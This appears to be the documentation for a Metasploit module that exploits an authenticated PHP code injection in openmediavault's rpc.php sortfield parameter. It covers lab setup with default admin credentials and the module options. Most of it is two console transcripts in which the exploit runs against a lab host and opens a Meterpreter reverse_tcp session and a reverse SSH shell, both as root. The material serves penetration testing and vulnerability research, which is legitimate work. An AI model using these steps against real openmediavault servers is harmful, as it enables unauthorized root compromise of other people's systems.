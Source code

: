 ## Vulnerable Application

### Description

  This module exploits an authenticated PHP code injection
  vulnerability found in openmediavault versions before 4.1.36
  and 5.x versions before 5.5.12 inclusive in the `sortfield`
  POST parameter of the `rpc.php` page, because `json_encode_safe()`
  is not used in `config/databasebackend.inc`.
  Successful exploitation grants attackers the ability to execute
  arbitrary commands on the underlying operating system as root.


### Installation And Setup

  1. Download version 5.5.11 of OpenMediaVault (i.e. [openmediavault_5.5.11-amd64.iso ISO](https://deac-ams.dl.sourceforge.net/project/openmediavault/5.5.11/openmediavault_5.5.11-amd64.iso)).
  2. Set up a new Debian machine in VirtualBox or VMWare and load the ISO.
  Follow the install prompts and note the `root` password you choose to use.
  Once the installation is finished, press `<Enter>` to reboot the server.
  3. Log into via the terminal using the username `root` and the password
  you set for the `root` user during installation.
  4. On the shell and run the command `ip a` to get the current IP address.
  5. Take the IP address and browse to the URL http://*IP ADDRESS*/, then log in
  with the default administrative credentials (`admin`:`openmediavault`).

## Options

  **TARGETURI**

  The URI path for OpenMediaVault installation

  **USERNAME**

  The username for OpenMediaVault

  **PASSWORD**

  The password for OpenMediaVault

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Scenarios

### OpenMediaVault 5.5.11 With Linux Dropper Payload
```
msf6 > use exploit/unix/webapp/openmediavault_rpc_rce
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/openmediavault_rpc_rce) > set RHOSTS 172.29.90.121
RHOSTS => 172.29.90.121
msf6 exploit(unix/webapp/openmediavault_rpc_rce) > set LHOST 172.29.95.98
LHOST => 172.29.95.98
msf6 exploit(unix/webapp/openmediavault_rpc_rce) > exploit

[*] Started reverse TCP handler on 172.29.95.98:4444
[*] Executing automatic check (disable AutoCheck to override)
[*] 172.29.90.121:80 - Authenticating with OpenMediaVault using admin:openmediavault...
[+] 172.29.90.121:80 - Successfully authenticated with OpenMediaVault using admin:openmediavault.
[*] 172.29.90.121:80 - Trying to detect if target is running a supported version of OpenMediaVault.
[+] 172.29.90.121:80 - Identified OpenMediaVault version 5.5.11.
[*] 172.29.90.121:80 - Verifying remote code execution by attempting to execute 'usleep()'.
[+] 172.29.90.121:80 - Response received after 9 seconds.
[+] The target is vulnerable.
[*] 172.29.90.121:80 - Sending payload (150 bytes)...
[*] Sending stage (976712 bytes) to 172.29.90.121
[*] Meterpreter session 1 opened (172.29.95.98:4444 -> 172.29.90.121:59890) at 2020-11-09 11:26:22 -0600
[*] Command Stager progress - 100.00% done (799/799 bytes)

meterpreter > sysinfo
Computer     : openmediavault.local
OS           : Debian 10.5 (Linux 5.7.0-0.bpo.2-amd64)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > getuid
Server username: root @ openmediavault (uid=0, gid=0, euid=0, egid=0)
meterpreter > getwd
/
meterpreter > shell
Process 930 created.
Channel 1 created.
id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux openmediavault 5.7.0-0.bpo.2-amd64 #1 SMP Debian 5.7.10-1~bpo10+1 (2020-07-30) x86_64 GNU/Linux
exit
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 172.29.90.121 - Meterpreter session 1 closed.  Reason: User exit
msf6 exploit(unix/webapp/openmediavault_rpc_rce) >
```

### OpenMediaVault 5.5.11 With Unix In-Memory Payload
```
msf6 > use exploit/unix/webapp/openmediavault_rpc_rce
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/openmediavault_rpc_rce) > set RHOSTS 172.29.90.121
RHOSTS => 172.29.90.121
msf6 exploit(unix/webapp/openmediavault_rpc_rce) > set LHOST 172.29.95.98
LHOST => 172.29.95.98
msf6 exploit(unix/webapp/openmediavault_rpc_rce) > set TARGET 1
TARGET => 1
msf6 exploit(unix/webapp/openmediavault_rpc_rce) > show options

Module options (exploit/unix/webapp/openmediavault_rpc_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   openmediavault   yes       The OpenMediaVault password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     172.29.90.121    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The URI path of the OpenMediaVault installation
   URIPATH                     no        The URI to use for this exploit (default is random)
   USERNAME   admin            yes       The OpenMediaVault username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_ssh):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.29.95.98     yes       The listen address (an interface may be specified)
   LPORT  22               yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Automatic (Unix In-Memory)


msf6 exploit(unix/webapp/openmediavault_rpc_rce) > set LPORT 9988
LPORT => 9988
msf6 exploit(unix/webapp/openmediavault_rpc_rce) > run

[*] Started SSH reverse handler on ssh://172.29.95.98:9988
[*] Executing automatic check (disable AutoCheck to override)
[*] 172.29.90.121:80 - Authenticating with OpenMediaVault using admin:openmediavault...
[+] 172.29.90.121:80 - Successfully authenticated with OpenMediaVault using admin:openmediavault.
[*] 172.29.90.121:80 - Trying to detect if target is running a supported version of OpenMediaVault.
[+] 172.29.90.121:80 - Identified OpenMediaVault version 5.5.11.
[*] 172.29.90.121:80 - Verifying remote code execution by attempting to execute 'usleep()'.
[+] 172.29.90.121:80 - Response received after 6 seconds.
[+] The target is vulnerable.
[*] 172.29.90.121:80 - Sending payload (158 bytes)...
[*] SSH command shell session 2 opened (127.0.0.1 -> 127.0.0.1) at 2020-11-09 11:28:39 -0600

id
uid=0(root) gid=0(root) groups=0(root)
whoami
root
uname -a
Linux openmediavault 5.7.0-0.bpo.2-amd64 #1 SMP Debian 5.7.10-1~bpo10+1 (2020-07-30) x86_64 GNU/Linux
pwd
/
```